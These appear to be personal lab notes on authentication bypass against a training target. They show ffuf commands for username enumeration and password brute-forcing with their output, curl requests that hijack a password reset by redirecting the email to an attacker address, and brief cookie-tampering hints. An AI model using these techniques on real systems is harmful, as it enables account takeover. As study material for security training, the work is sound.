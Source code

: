 ## Authentication Bypass

**Brute Forcing**

1) create a list of username that already exists by going to signup page and fetching the username that have already been taken
2) Once we have our list of username, try to brute force using common password

```
# (1) Creating a list of username that already exists

>>> ./ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.45/customers/signup -mr "username already exists"
admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 219ms]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 106ms]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 107ms]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 106ms]

# (2) check credentials with status code other than 200

>>> ./ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.50.45/customers/login -fc 200

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 124ms]
   * W1: steve
   * W2: thunder
```

**Exploiting Logic Flaws**

We can redirect email to our own


username: 'robert'
email: 'robert@acmeitsupport.thm'



```
>>> curl 'http://10.10.250.243/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
>>> curl 'http://10.10.250.243/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
>>> curl 'http://10.10.250.243/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
>>> curl 'http://10.10.250.243/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=yuki@customer.acmeitsupport.thm'

url: 'http://10.10.250.243/customers/tickets'
```

**Cookie Tempering**

- Type of Hashing used for cookie: [crackstation](https://crackstation.net/)
    * `md5`: [link](https://md5.gromweb.com/?md5=3b2a1053e3270077456a79192070aa78)
    * `sha-256`
    * `sha-512`
    * `sha1`
- Encoding Types
    * `base32`, `base64`
